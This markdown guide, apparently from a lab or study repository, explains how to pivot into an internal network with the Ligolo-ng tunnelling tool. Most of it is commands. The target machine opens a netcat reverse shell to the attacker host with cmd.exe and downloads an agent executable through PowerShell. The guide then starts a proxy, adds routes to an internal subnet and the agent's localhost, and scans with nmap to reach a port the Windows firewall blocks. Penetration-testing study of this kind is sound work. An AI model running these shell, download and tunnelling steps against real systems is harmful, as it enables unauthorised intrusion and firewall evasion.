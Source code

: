 
# Ligolo Setup Guide

## We  got    Agent  and proxy :--

1. Proxy  ⇒  Kali Linux  [ Local pc  ]
2. Agent  ⇒  Target  machines [  Victim ]


 ## Symbols & Notations
- **$** : Turbo User (Non-root user on attacker machine)
- **#** : Root User  (root user on attacker machine)
- **C:\>** : Target Machine (Windows)
- **@** : Reverse Shell of Windows in Attacker End
- **##** : Ligolo-Proxy-Server

## 1 - Place `nc` Binary on Target Machine

Using a Python HTTP server:

```
┌──(turbo㉿kali)-[/opt/Static\ Binaries/Windows\ Binaries]
└─$ python -m http.server 80
```

Access the server from the target machine:

```
http://192.168.1.13
```

---

## 2 - Get a Reverse Shell

Start a listener on port 443:


```bash
$ nc -nlvp 443
```

On the target machine, run:

```powershell
C:\> nc64.exe 192.168.1.13 443 -e cmd.exe
```

After executing this, the reverse shell will be active on the attacker’s listener.

![image](https://github.com/user-attachments/assets/cd48e5b2-5321-46c6-901a-0440aa837b9b)


---

## 3 - Transfer Ligolo Agent to Target Machine

Start a Python HTTP server:

```bash
┌──(turbo㉿kali)-[/opt/Static\ Binaries/Ligolo_ng/win]
└─$ python -m http.server 80
```

On the reverse shell, download the agent:

```powershell
@ powershell Invoke-WebRequest "http://192.168.1.13/agent.exe" -OutFile "C:\Users\Public\agent.exe"
```

Alternative method:

```powershell
@ iwr -uri http://192.168.45.13/agent.exe -Outfile agent.exe
```

Or manually visit:

```
http://192.168.1.13
```

---

## 4 - Start Ligolo Proxy Server on Attacker Machine

Run the following as **root**:
Run on Attacker Box (Kali) with root User (192.168.1.13)

• Create the Ligolo tunnel interface on the attacker system
```
# ip tuntap add user turbo mode tun ligolo
```
![image](https://github.com/user-attachments/assets/b3b79fc3-9e1e-48d6-88c5-eb418294039c)

• Created Ligolo tunnel interface to active
```
# ip link set ligolo up
```
![image](https://github.com/user-attachments/assets/762332d3-7a3d-47bf-8d1e-991dd8c6fc23)

```
# cd /opt/Static\ Binaries/Ligolo_ng/win
```
```
# chmod +x proxy
```

Start the local proxy server:

```
# ./proxy -selfcert -laddr 0.0.0.0:80
```
Other Method
```
# ligolo-proxy -selfcert -laddr 0.0.0.0:80
```

---

## 5 - Start Ligolo Agent on Target Machine

### On Windows

```
@ agent.exe -connect 192.168.1.13:80 -ignore-cert
```

### On Linux

```
@ agent -connect 192.168.1.13:80 -ignore-cert
```

---

## 6 - Configure Network Routing on Attacker Machine

Check agent session:

```
## ligolo-ng » session
```


![image](https://github.com/user-attachments/assets/699f05da-9f93-496c-806e-ab5b21b56cf2)

```
## [Agent : root@webserver] » ifconfig
```
![image](https://github.com/user-attachments/assets/043d0a4f-f96e-4e72-8636-683fb3559ad5)


Add an internal network route:

```
# ip route add 192.168.2.0/24 dev ligolo
```

Verify routes:

```
# route -n
# ip route
```
![image](https://github.com/user-attachments/assets/c7320a87-f891-4583-897c-3ca4e99b7cc6)


Check active tunnels:

```
## [Agent : root@webserver] » tunnel_list
```
![image](https://github.com/user-attachments/assets/79c4ddc4-a94e-476e-bd21-42230fae5ce6)

Start the  Added network in Proxy serve 

## [Agent : root@webserver] » start
---

## 7 - Visit Services from Attacker Machine

- **http://192.168.1.20** - Bind in port 80 Apache page
- **http://192.168.2.10** - Bind to site2

  ![image](https://github.com/user-attachments/assets/beec36e4-a763-4bba-bc47-c6ddc01b4430)

- **http://127.0.0.1** - Binnd to site1

---

## 8 - Access Agent’s Local Ports ( 127.0.0.1 )

Link :-  https://github.com/nicocha30/ligolo-ng/wiki/Localhost

 If you need to access the local ports of the currently connected agent, there's a
"magic" CIDR hardcoded in Ligolo-ng: 240.0.0.0/4
This is an unused IPv4 subnet. If you query an IP address on this subnet, Ligolo-
ng will automatically redirect traffic to the agent's local IP address (127.0.0.1).
```
# ip route add 240.0.0.1/32 dev ligolo
```

```

# ip route
```
![image](https://github.com/user-attachments/assets/1af2c3e5-fc79-4ecf-abe2-e3c0e61b1e93)

Visit from the attacker machine:

```
http://240.0.0.1
```
![image](https://github.com/user-attachments/assets/b4199875-dd13-4a9a-abff-8947c5c237ec)

Scan the network:

```
# nmap -v -p- -sT 240.0.0.1
```
⇒ When  we Scan  inside the  Target Machine  withthe help of  this  ip  (240.0.0.1) Port no 80 Open 

![image](https://github.com/user-attachments/assets/4f41d77a-ad29-45b0-9a9b-2fae09d4ed21)

⇒ When we  Scan  Outside of the Target Machine  withthe help of ip ( 192.168.1.20 ) Port no 80 Open 

![image](https://github.com/user-attachments/assets/685f1b85-f957-4014-aaa9-d6352576b96c)
 
========================================================

## Firewall in windows :- 
 
 In inbound Rule Block port no 80  which is not listning in nmap output ----

 ![image](https://github.com/user-attachments/assets/60ed9d5e-682d-4dbc-ab94-0da41fda42d1)


⇒ Port no  80 Block  By Firewall  they can't show in nmap output :--
 
 ![image](https://github.com/user-attachments/assets/ce723713-010e-4f0f-a159-908844a8956a)

 
 ⇒ port no 80  is show  in  local host Binding   127.0.0.1  [  240.0.0.1 ]

 ![image](https://github.com/user-attachments/assets/8c99d7c9-dc63-4dd5-a14e-ab7dec0fe8c4)

 
 
 
 

 

